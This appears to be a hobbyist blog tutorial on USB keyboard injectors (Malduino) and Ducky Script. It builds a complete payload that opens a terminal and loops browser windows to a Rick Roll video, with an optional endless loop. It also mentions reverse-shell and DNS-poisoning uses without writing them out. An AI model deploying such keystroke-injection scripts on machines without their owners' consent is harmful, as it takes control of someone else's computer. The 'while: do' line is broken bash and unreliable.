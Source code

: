 ```yaml
---
title: "Introduction to Keyboard Injectors with Rick Astley"
date: 2020-02-11
category: "hardware"
excerpt: "Launch a Rick Roll bomb on your computer today!"
---
```




# DISCLAIMER:
Code in this project utilizes your browser for purposes it was not intended for. Do not plug a bad USB into any computer without the proper permissions from its owner.


## Bad USBs:
A "Bad USB" is a USB drive designed to perform malicious actions when plugged into a USB socket. This can range from frying a motherboard with high-voltage discharge to gaining a remote backdoor.


## Keyboard Injectors
A Keyboard injector is a USB stick programmed to initiate keystrokes at superhuman speeds when plugged in.

![Keyboard-Injector](/images/injector.gif){:class="img-responsive"}

One such device is the [Malduino](https://maltronics.com/collections/malduinos) by Maltronics.

The Malduino Elite has 4 switches corresponding to binary values 1 and 0. Depending on the switch combination, a particular script stored on the micro sd card will execute. For example, 1010.txt for gaining a reverse shell and 1110.txt for DNS poisoning.  
![malduino](/images/malduino_img.jpg){:class="img-responsive"}
## Ducky Script Basics
The Malduino uses a scripting language called ducky script.

### DELAY
DELAY adds a pause in milliseconds to the script. This is useful if you want to give a process time to finish before executing the next line. The following is a delay of 1 second:
```bash
DELAY 1000
```
### STRING and ENTER
STRING is used to simulate characters typed on the keyboard. For example, 
```bash
STRING Hello!
```
would simulate the user typing "Hello!" on the keyboard. 
ENTER emulates the enter key.
```bash
STRING Hello!
ENTER
```
This will become useful once you need to navigate cmd/terminal or a built in search such as Spotlight.
### GUI
GUI simulates the Super key. This would be the command key on Mac and the Windows key on Windows. With this you gain access to various keyboard shortcuts.
```bash
GUI r
STRING cmd
ENTER
```
This script uses the Windows-key+r shortcut to pull up the Windows' “Run” box, type out cmd, and hit enter.
## The Script:
Firstly, access a shell using the methods mentioned above. For Mac, access spotlight then navigate to the terminal with the proper delay times (tweak delays so script runs as fast as possible). 
```bash
DELAY 2000
GUI space
DELAY 500
STRING terminal
DELAY 500
ENTER
```
Next, access a bash shell, in case bash isn't the default shell, and write out the script
*The delays are too long. Make sure to tweak them for efficiency*
```bash
DELAY 500
STRING bash
DELAY 500
ENTER
```
Create a loop to successively open browser windows, where `N` is the number of Windows to open.
```bash
STRING N=0
DELAY 500
ENTER
DELAY 500
STRING while [ $N -le 5 ]; do
DELAY 500
ENTER
```
*Use this to open an endless amount of brower windows*

```bash
STRING while: do
```
Use `open` in bash to open a browser with the specified link. The process may be slightly different on Windows, but the idea is still the same.
```bash
DELAY 500
STRING open https://www.youtube.com/watch?v=dQw4w9WgXcQ
DELAY 500
ENTER
DELAY 500
STRING N=$(( $N + 1 ))
DELAY 500
ENTER
DELAY 500
STRING done
DELAY 500
ENTER
DELAY 500
```
